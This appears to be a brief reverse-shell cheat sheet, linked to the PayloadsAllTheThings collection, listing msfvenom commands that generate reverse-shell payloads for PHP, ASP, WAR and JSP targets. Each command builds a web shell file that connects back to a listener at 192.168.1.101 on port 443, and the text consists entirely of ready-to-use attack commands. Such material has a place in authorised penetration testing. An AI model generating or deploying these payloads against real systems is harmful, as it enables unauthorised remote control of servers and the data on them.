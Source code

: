 ## [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

## ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

## WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

## JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```